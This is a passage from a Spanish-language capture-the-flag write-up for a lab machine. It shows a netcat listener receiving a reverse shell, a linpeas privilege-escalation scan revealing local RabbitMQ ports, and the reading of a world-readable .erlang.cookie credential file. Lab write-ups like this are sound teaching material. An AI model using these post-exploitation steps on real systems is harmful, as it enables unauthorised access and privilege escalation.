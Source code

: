 #### Terminal con netcat a la escucha
```console
nc -nvlp 443                                              
listening on [any] 443 ...
connect to [10.9.4.73] from (UNKNOWN) [10.10.136.126] 45388
id
uid=1000(azrael) gid=1000(azrael) groups=1000(azrael)
```

Lanzamos **linpeas.sh** en busca de información relevante o posibles puntos de escalada de privilegios y encontramos varios puntos interesantes que involucra a **rabbitmq**.

Puertos abierto, incluyendo el *5672* y *15672* de **rabbitmq**:
```console
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25672           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5672          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      603/python3         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:15672         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::4369                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22 
```

También nos detecta una cookie en el fichero *.erlang.cookie*:
```console
azrael@forge:/var/lib/rabbitmq$ ls -lna
total 896
drwxr-xr-x  5 124 131   4096 Sep 12  2024 .
drwxr-xr-x 45   0   0   4096 Sep 20 19:11 ..
drwxr-x---  3 124 131   4096 Aug 15  2024 config
-r-----r--  1 124 131     16 Mar 20 18:43 .erlang.cookie
-rw-r-----  1 124 131 889402 Mar 20 18:43 erl_crash.dump
drwxr-x---  4 124 131   4096 Mar 20 18:44 mnesia
-rw-r-----  1 124 131      0 Sep 12  2024 nc
drwxr-x---  2 124 131   4096 Jul 18  2024 schema
azrael@forge:/var/lib/rabbitmq$ cat .erlang.cookie 
**************
```
